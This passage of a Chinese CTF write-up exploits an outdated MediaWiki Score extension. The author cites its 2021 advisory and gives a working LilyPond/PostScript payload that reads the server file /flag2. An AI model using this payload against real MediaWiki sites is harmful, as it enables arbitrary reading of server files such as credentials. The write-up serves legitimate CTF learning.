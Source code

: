 就好了。拿到Flag1并可以登录了。那剩下的肯定就是getshell了。

![image-20221126202653209](./images/image-20221126202653209.png)

一看就是个很奇怪的扩展啊，版本这么老，一查CVE: https://www.mediawiki.org/wiki/Extension:Score/2021_security_advisory 这里就列出来了

![image-20221126202837699](./images/image-20221126202837699.png)

继续查，发现是因为这个乐谱插件支持内嵌postscript，而内嵌的postscript编译的时候没开对安全选项，导致可以嵌入命令。

那我们就需要先学习乐谱软件怎么嵌入postscript，再学习postscript怎么嵌入命令。第一个还好说，去[这里](https://www.mediawiki.org/wiki/Extension:Score) 找一个例子，再去[这里](https://lilypond.org/doc/v2.23/Documentation/snippets/editorial-annotations)  找如何嵌入postscript的例子。可是第二个我怎么搜也没搜到好用的例子，只有只言片语让我学会了如何读任意文件，却不知道如何列出文件列表，或者运行命令得到结果。

不过这个也够了，因为我可以猜我们的flag就在`/flag2`下，事实证明猜对了：

```
<score>
\relative c'' {
  \override NoteHead.stencil = #(ly:make-stencil (list 'embedded-ps
    "gsave
      currentpoint translate
      newpath
      0 0.25 moveto
      1.3125 0.75 lineto
      1.3125 -0.25 lineto
      0 -0.75 lineto
      closepath
      fill
      grestore
gsave
/Helvetica 2 selectfont
/buff 4096 string def
/file_obj (/flag2) (r) file def 
file_obj buff readstring
buff show
% CURRENT POINT IS AT END OF STRING (306+? 396)
grestore
" )
    (cons 0 1.3125)
    (cons -.75 .75))
  g4
}
</score>
```
